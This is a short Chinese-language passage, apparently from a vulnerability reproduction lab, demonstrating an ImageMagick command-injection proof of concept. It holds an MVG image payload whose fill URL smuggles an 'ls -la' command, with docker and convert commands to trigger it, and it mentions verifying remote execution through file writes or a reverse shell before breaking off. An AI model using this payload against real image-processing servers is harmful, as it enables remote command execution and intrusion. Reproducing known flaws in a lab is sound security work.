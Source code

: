 在容器中 `/poc.png` 文件内容如下：
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://evalbug.com/"|ls -la")'
pop graphic-context
```

在物理机上直接执行下面命令验证漏洞：

`$ docker exec i_imagemagick_1 convert /poc.png 1.png`

或进入 docker容器 shell 中执行：

`$ convert /poc.png 1.png`

如果看到 `ls -al 命令成功执行`，则存在漏洞。

![](img/5.png)



**远程命令执行测试和使用POC**

远程命令执行无回显，可通过写文件或者`反弹 shell` 来验证漏洞存在。

目标图片：